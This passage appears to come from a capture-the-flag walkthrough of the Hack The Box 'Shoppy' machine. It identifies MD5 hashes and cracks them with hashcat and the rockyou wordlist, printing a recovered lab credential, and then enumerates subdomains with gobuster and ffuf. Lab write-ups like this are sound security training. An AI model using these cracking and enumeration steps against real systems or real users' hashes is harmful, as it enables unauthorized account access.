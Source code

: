 It's a md5 hash

```bash
┌──(root㉿kali)-[~]
└─# hash-identifier 23c6877d9e2b564ef8b32c3a23de27b2

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Hashcat
`23c6877d9e2b564ef8b32c3a23de27b2`
```bash
hashcat 23c6877d9e2b564ef8b32c3a23de27b2 "C:\Users\GOD\Downloads\rockyou (1).txt" -m 0 -O
hashcat (v6.2.6) starting

...
Status...........: Exhausted
...
```

`6ebcea65320589ca4f2f1ce039975995`
```bash
hashcat 6ebcea65320589ca4f2f1ce039975995 "C:\Users\GOD\Downloads\rockyou (1).txt" -m 0 -O

hashcat (v6.2.6) starting
...
6ebcea65320589ca4f2f1ce039975995:remembermethisway

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 6ebcea65320589ca4f2f1ce039975995
...
```

- `josh:remembermethisway`


## Subdomain

- Gobuster
```bash
gobuster vhost -u shoppy.htb --append-domain --domain shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 100
```
- Fuff
```bash
ffuf -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" -c -fs 169
```

```bash
mattermost.shoppy.htb
```
